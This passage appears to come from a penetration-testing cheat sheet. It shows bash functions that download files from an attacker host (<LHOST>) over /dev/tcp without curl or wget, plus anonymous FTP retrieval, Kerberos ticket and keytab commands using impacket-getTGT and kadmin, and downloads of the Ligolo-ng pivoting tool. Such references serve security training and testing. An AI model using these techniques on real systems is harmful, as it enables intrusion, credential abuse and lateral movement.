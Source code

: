     exec 3&lt;&gt;/dev/tcp/${HOST}/$PORT
    echo -en &quot;GET ${DOC} HTTP/1.1\r\nHost: ${HOST}\r\n${tag}\r\n\r\n&quot; &gt;&amp;3
    while read line; do
        [[ $mark -eq 1 ]] &amp;&amp; echo $line
        if [[ &quot;${line}&quot; =~ &quot;${tag}&quot; ]]; then
            mark=1
        fi
    done &lt;&amp;3
    exec 3&gt;&amp;-
}
</code></pre>
<pre><code class="language-c">__wget http://&lt;LHOST&gt;/&lt;FILE&gt;
</code></pre>
<h6>curl version</h6>
<pre><code class="language-c">function __curl() {
  read proto server path &lt;&lt;&lt;$(echo ${1//// })
  DOC=/${path// //}
  HOST=${server//:*}
  PORT=${server//*:}
  [[ x&quot;${HOST}&quot; == x&quot;${PORT}&quot; ]] &amp;&amp; PORT=80

  exec 3&lt;&gt;/dev/tcp/${HOST}/$PORT
  echo -en &quot;GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n&quot; &gt;&amp;3
  (while read line; do
   [[ &quot;$line&quot; == $'\r' ]] &amp;&amp; break
  done &amp;&amp; cat) &lt;&amp;3
  exec 3&gt;&amp;-
}
</code></pre>
<pre><code class="language-c">__curl http://&lt;LHOST&gt;/&lt;FILE&gt; &gt; &lt;OUTPUT_FILE&gt;
</code></pre>
<h4>FTP</h4>
<pre><code class="language-c">ftp &lt;RHOST&gt;
wget -r ftp://anonymous:anonymous@&lt;RHOST&gt;
</code></pre>
<h4>Kerberos</h4>
<pre><code class="language-c">sudo apt-get install krb5-kdc
</code></pre>
<pre><code class="language-c">impacket-getTGT &lt;DOMAIN&gt;/&lt;USERNAME&gt;:'&lt;PASSWORD&gt;'
export KRB5CCNAME=&lt;FILE&gt;.ccache
export KRB5CCNAME='realpath &lt;FILE&gt;.ccache'
</code></pre>
<pre><code class="language-c">/etc/krb5.conf                   // kerberos configuration file location
kinit &lt;USERNAME&gt;                 // creating ticket request
klist                            // show available kerberos tickets
kdestroy                         // delete cached kerberos tickets
.k5login                         // resides kerberos principals for login (place in home directory)
krb5.keytab                      // &quot;key table&quot; file for one or more principals
kadmin                           // kerberos administration console
add_principal &lt;EMAIL&gt;            // add a new user to a keytab file
ksu                              // executes a command with kerberos authentication
klist -k /etc/krb5.keytab        // lists keytab file
kadmin -p kadmin/&lt;EMAIL&gt; -k -t /etc/krb5.keytab    // enables editing of the keytab file
</code></pre>
<h4>Ligolo-ng</h4>
<blockquote>
<p>https://github.com/nicocha30/ligolo-ng</p>
</blockquote>
<h5>Download Proxy and Agent</h5>
<pre><code class="language-c">wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz